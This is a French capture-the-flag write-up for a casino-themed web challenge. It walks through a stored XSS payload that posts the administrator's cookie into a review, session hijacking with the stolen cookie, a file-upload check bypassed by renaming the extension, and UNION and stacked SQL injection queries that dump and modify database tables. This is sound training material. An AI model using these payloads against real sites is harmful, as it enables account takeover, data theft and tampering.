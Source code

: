 # Official writeup of CS Games Challenge 1

This is the official writeup of CS Games Challenge 1. Please tryhard before reading this.

# Flag 1 : XSS injection

Code d'affichage des reviews. On peut injecter du code directement.

```html
<div class="d-flex flex-column">
    <h3 class="mt-2"><%-review.username %></h3>
    <p><%-review.text %></p>
    <p class="mt-auto">
        le <%-review.date.getDate() %> / <%-review.date.getMonth() %> / <%-review.date.getFullYear() %>
    </p>
</div>
```

On peut modifier la fonction qui envoie une review pour envoyer le token de l'administrateur.

```html
<script>
    console.log(document.cookie);
    fetch("/api/user/review", {
        method: "POST",
        headers: {
            Accept: "application/json, text/plain, */*",
            "Content-Type": "application/json",
        },
        body: JSON.stringify({
            review: document.cookie,
        }),
    });
</script>
```

Quand un utilisateur visitera le site, il y créra une review avec comme texte son cookie, pas discret mais efficace ! En attendant un peu, l'administrateur ira sur le site.
Une fois le cookie affiché. On ajoute le cookie dans notre navigateur. Allons dans les outils pour développeurs, lancer dans la console :

```js
document.cookie = "AUTH_COOKIE= le cookie volé";
```

Actualisons la page, et on est connecté en administrateur !
Allons sur la page du profil, en utilisant le nom de l'administrateur, on trouve le flag : `flag{frank_catton}`

# Flag 2 : File upload et SQL injection

## Upload du fichier de configuration

La test de l'extention de l'image de la photo de profil est le suivant :

```js
    if (path.extname(req.file.originalname).toLowerCase() === ".png") {
```

On peut outrepasser le test en changeant l'extension de notre fichier en ".png" ! En effet le controle est seulement sur l'extension et non le contenu ! on peut donc upload n'importe quel type de fichier.

## Mise à jour de la configuration

Connecté en administrateur sur l'onglet des horaires, on peut faire une injection SQL avec le champ `week`.

Voici une liste de requêtes pour récupérer des informations :

```SQL
0' UNION SELECT username FROM users WHERE '1'='1
-- http://localhost:3000/profile?pre=shifts&week=0' UNION SELECT table_schema FROM information_schema.tables WHERE '1'='1
-- erreur sur le nombre de colonnes, une injection est possible
-- NB : information_schema.tables est une table qui regroupe toutes les tables possibles, elle est toujours présente

0' UNION SELECT table_schema, table_name, table_name, table_name, table_name, table_name FROM information_schema.tables WHERE '1'='1
--  http://localhost:3000/profile?pre=shifts&week=0' UNION SELECT table_schema, table_name,table_name,table_name,table_name,table_name FROM information_schema.tables WHERE '1'='1
-- On ajoute des colonnes jusqu'à ne plus avoir d'erreur, ici c'est 6 !
-- On trouve les tables avec le schema ctf1, c'est surement celles qui nous intéressent !

0' UNION SELECT table_schema, table_name, COLUMN_NAME, table_name, table_name, table_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'config
-- http://localhost:3000/profile?pre=shifts&week=0' UNION SELECT table_schema, table_name,COLUMN_NAME,table_name,table_name,table_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'config
-- On récupère les colonnes de la table `config`

0' UNION SELECT config_id, attribute, value, value, value, value FROM config WHERE '1'='1
-- http://localhost:3000/profile?pre=shifts&week=0' UNION SELECT config_id, attribute, value, value, value, value FROM config WHERE '1'='1
-- On trouve la ligne slots_config, la valeur correspond a un nom de fichier : `/slots_config.conf` mettons le à jour !
-- Si on regarde le chemin de notre photo de profil, il est a http://localhost:3000/public/slots_config.conf.png

0' UNION SELECT config_id, attribute, value, value, value, value FROM config WHERE '1'='1'; UPDATE config SET value = '/public/slots_config.conf.png' WHERE attribute='slots_config
-- http://localhost:3000/profile?pre=shifts&week=0' UNION SELECT config_id, attribute, value, value, value, value FROM config WHERE '1'='1'; UPDATE config SET value = '/public/slots_config.conf.png' WHERE attribute='slots_config
-- l'affichage est complètement détruit car on fait 2 requetes, mais on peut voir qu'on a mit a jour une ligne
-- On relance la requete précédente pour voir les résultats... c'est à jour !
-- On peut utiliser le bouton pour voir si le logiciel est à jour, on trouve le flag : `flag{#N1ce:PicTure}`
```


# Flag 3 : Bruteforce
Le numéro de série est le hash de la position de la machine dans le casino. Trouvons la liste des machines et leur position. On réutilise notre injection pour la table des slots

```SQL
0' UNION SELECT table_schema, table_name, COLUMN_NAME, table_name, table_name, table_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'slots
-- http://localhost:3000/profile?pre=shifts&week=0' UNION SELECT table_schema, table_name, COLUMN_NAME, table_name, table_name, table_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'slots
-- On récupère les colonnes de la table `slots`

0' UNION SELECT position, balance, balance, balance, balance, balance FROM slots WHERE '1'='1
-- http://localhost:3000/profile?pre=shifts&week=0' UNION SELECT position, balance, balance, balance, balance, balance FROM slots WHERE '1'='1
-- On récupère la liste des position

0' UNION SELECT config_id, attribute, value, value, value, value FROM config WHERE '1'='1
-- http://localhost:3000/profile?pre=shifts&week=0' UNION SELECT config_id, attribute, value, value, value, value FROM config WHERE '1'='1
-- On trouve la ligne serial_number_derivation, qui correspond a la fonction pour hashage utilisée pour dériver le numéro de série
```

Pour chaque position, on calcule son SHA256, on obtien 1 seul match : ...
Allons jouer ! On change l'id de la machine dans l'url de jeu : http://localhost:3000/slots/`...`
On joue et on obtien le flag : flag{WP_D@ny!}